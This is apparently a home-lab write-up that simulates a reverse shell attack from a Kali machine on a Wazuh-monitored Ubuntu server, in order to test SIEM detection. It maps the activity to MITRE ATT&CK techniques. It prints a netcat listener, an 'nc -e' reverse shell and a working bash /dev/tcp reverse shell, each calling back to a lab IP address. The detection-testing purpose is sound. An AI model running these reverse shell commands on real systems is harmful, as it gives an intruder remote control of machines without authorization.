


# Attack Simulation – Reverse Shell Execution

---

## 1. Overview

This phase simulates a **reverse shell attack**, where the target system initiates a connection back to the attacker, allowing remote command execution.

This technique is commonly used by attackers after gaining initial access to maintain control over a compromised system.

---

## 2. Objective

The objective of this simulation is to:

* Establish a reverse connection from the target to the attacker
* Demonstrate remote command execution capability
* Generate logs that indicate suspicious outbound connections
* Validate SIEM detection for post-exploitation activity

---

## 3. Attack Concept

In a reverse shell:

* The attacker sets up a **listener**
* The victim machine initiates a connection back
* The attacker gains an interactive shell on the target system

This method bypasses inbound firewall restrictions by using outbound connections.

---

## 4. Target

The **Ubuntu server** was used as the target system.

* Monitored by Wazuh agent
* Capable of generating system and process logs
* Acts as the compromised endpoint

---

## 5. Attack Methodology

A reverse shell was attempted using **Netcat (nc)** to establish a remote command session between the target and attacker.

---

## 6. Execution

### Step 1 – Start Listener (Attacker: Kali)

```bash
nc -lvnp 4444
```

---

### Step 2 – Attempt Reverse Shell (Target: Ubuntu)

```bash
nc -e /bin/bash 192.168.239.101 4444
```

---

## 7. Observations

* The reverse shell command attempted to initiate a connection from the target to the attacker
* The system generated logs related to command execution and network activity
* Unexpectedly, the activity triggered detection rules related to network scanning

This highlights how some behaviors may be misclassified depending on detection logic.

---

## 8. Technical Note

Modern versions of Netcat (OpenBSD variant) disable the `-e` option for security reasons.

As a result, the reverse shell command may fail unless an alternative method is used.

---

## 9. Alternative Reverse Shell Method

A working method using bash:

```bash
bash -i >& /dev/tcp/192.168.239.101/4444 0>&1
```

This establishes a reverse shell without relying on Netcat’s `-e` option.

---

## 10. Security Impact

Reverse shells are critical from a security perspective because they enable:

* Remote command execution
* Persistent attacker access
* Data exfiltration
* Lateral movement

Detecting such behavior is essential for preventing full system compromise.

---

## 11. MITRE ATT&CK Mapping

This activity maps to:

```text
T1059 – Command and Scripting Interpreter
```

Additional related technique:

```text
T1071 – Application Layer Protocol
```

---

## 12. Detection Relevance

This simulation provides insight into:

* Suspicious outbound connections
* Unusual command execution patterns
* Process-level anomalies

These behaviors can be used to:

* Create custom detection rules
* Improve SIEM correlation logic
* Identify post-exploitation activity

---

## 13. Evidence Collection

Screenshots were captured to validate:

* Listener setup on attacker machine
* Reverse shell execution attempts
* Logs generated on the target system

---

## 14. Conclusion

This phase demonstrates post-exploitation behavior through reverse shell execution.s

Although initial attempts may fail due to system limitations, the simulation highlights:

* Real-world attacker techniques
* Detection challenges in SIEM environments
* The importance of monitoring outbound connections and command execution

This completes the **attack execution phase** of the lab.

---

## 15. Supporting Evidence

=>Reverse Shell Attempt


=>Listener Output


---
